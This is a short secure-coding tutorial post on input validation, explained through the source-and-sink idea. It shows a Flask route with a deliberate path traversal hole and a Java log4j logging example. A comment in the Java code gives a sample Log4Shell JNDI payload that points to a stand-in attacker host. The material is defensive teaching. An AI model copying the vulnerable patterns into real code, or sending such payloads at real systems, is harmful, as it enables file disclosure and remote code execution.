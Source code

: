 ```yaml
---
title: 1.3 General Rule Of Thumb
author: Riccardo ten Cate
date: 03-12-2024
category: Jekyll
layout: post
---
```


The general rule of thumb in input validation is to avoid giving an attacker control over the object that is passed into a function, parser, or operator. This means that user input should not be directly passed into a function, but rather should be validated and sanitized first. For example, in the case of a file operator, an attacker could inject malicious data and cause a directory traversal attack.

So, what exactly does that mean?

### example-1

```python
@app.route("/home", methods=['POST'])
def home():
    filename = request.form['filename']
    if filename == "":
        filename = "default.txt"
    f = open(filename, 'r')
    read = f.read()
    return render_template("index.html", read=read)
```

In this example, we observe that when the so-called _**source**_
`filename = request.form['filename']`
  
is used in the following _**sink**_ or in this case a **_File operator_**  
`f = open(filename,'r')`  
  
this will lead to a security vulnerability called Local **_file inclusion_**|| **_Directory traversal_** attack. This attack was preventable by applying the secure design principles mentioned above. We will dig further into this example and how to mitigate it in the chapter that covers the _white listing_ mitigation strategy.

### example-2

Even though that at the time of writing the code `log4j` did not directly impose a great security risk, a lot of trouble could have been prevented by not directly writing user-supplied input directly into the `log.error()` function.

```java
import org.apache.log4j.Logger;
import java.io.*;
import java.util.*;

public class log4jExample{
    /* Get actual class name to be printed on */
    static Logger log = Logger.getLogger(log4jExample.class.getName());

    public static void main(String[] args){
        // input could look like:
        // ${jndi:rmi://hackerbox.com:1337/exploit}
        log.error(USER_INPUT_HERE);
    }
}
```

The same principles as mentioned in the **_directory / path traversal_** example are applied to this as well. Don't give an attacker full control over an _**object**_ that goes into a _**sink**_. More in-depth information about the **_Log4J_** Vulnerability can be found in the _**Sources**_ Section

In conclusion, input validation is an essential aspect of software security and should be given the attention it deserves. By using the appropriate validation strategies and following best practices, software systems can be made more secure and better protected against malicious attacks.